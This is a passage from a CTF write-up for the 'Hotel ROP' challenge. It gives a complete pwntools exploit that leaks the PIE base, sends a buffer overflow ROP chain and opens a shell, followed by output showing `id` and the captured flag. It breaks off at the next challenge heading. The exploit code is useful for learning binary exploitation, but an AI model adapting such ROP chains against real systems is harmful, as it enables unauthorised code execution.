 Now, the exploit will be:-

```py

from pwn import*

p = remote("dctf1-chall-hotel-rop.westeurope.azurecontainer.io", 7480)
elf = ELF("hotel_rop")
p.recvuntil("Welcome to Hotel ROP, on main street ")
elf.address = int(p.recvline().strip(), 16) - 0x136d
print(hex(elf.address))

payload = b"A"*40
payload += p64(elf.symbols['california'])
payload += p64(elf.symbols['silicon_valley'])
payload += p64(elf.address + 0x000000000000140b)
payload += p64(0x1337c0de)
payload += p64(elf.address + 0x0000000000001409)
payload += p64(0xcb760000)*2
payload += p64(elf.symbols['loss'])
p.send(payload)
p.interactive()
```

Running the exploit:-

```asm

❯ python3 hotel_rop.py
[+] Opening connection to dctf1-chall-hotel-rop.westeurope.azurecontainer.io on port 7480: Done
[*] '/home/d4mianwayne/Pwning/CTFs/ductf/hotel_rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x564fdcdc6000
[*] Switching to interactive mode
You come here often?
I think you should come here more often.
Welcome to Hotel California
You can sign out anytime you want, but you can never leave
You want to work for Google?
$ id
uid=1000(pilot) gid=1000(pilot) groups=1000(pilot)
$ cat flag.txt
dctf{ch41n_0f_h0t3ls}$ 
[*] Interrupted
```

### Formats last theorem

This was another format string challenge, performing the checksec on the binary we get the:-
